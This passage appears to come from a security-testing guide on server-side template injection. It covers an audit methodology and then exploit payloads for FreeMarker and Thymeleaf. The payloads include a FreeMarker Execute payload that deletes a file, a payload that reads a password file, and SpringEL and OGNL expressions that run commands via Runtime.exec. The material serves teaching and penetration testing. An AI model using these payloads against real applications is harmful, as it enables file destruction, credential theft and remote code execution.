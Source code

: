 Developer-supplied objects are particularly likely to contain sensitive information, and may vary between different templates within an application, so this process should ideally be applied to every distinct template individually.

#### **Attack**

At this point you should have a **firm idea of the attack surface available** to you and be able to proceed with traditional security audit techniques, reviewing each function for exploitable vulnerabilities. It's important to approach this in the context of the wider application - some functions can be used to exploit application-specific features. The examples to follow will use template injection to trigger arbitrary object creation, arbitrary file read/write, remote file include, information disclosure and privilege escalation vulnerabilities.

## Exploits

### FreeMarker \(Java\)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `${7*'7'} Nothing`
* `${foobar}`

```text
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

#### More information

* In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity \(Java\)

#### More information

* In Velocity section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf \(Java\)

The typical test expression for SSTI is `${7*7}`. This expression works in Thymeleaf, too. If you want to achieve remote code execution, you can use one of the following test expressions:

* SpringEL: `${T(java.lang.Runtime).getRuntime().exec('calc')}`
* OGNL: `${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}`
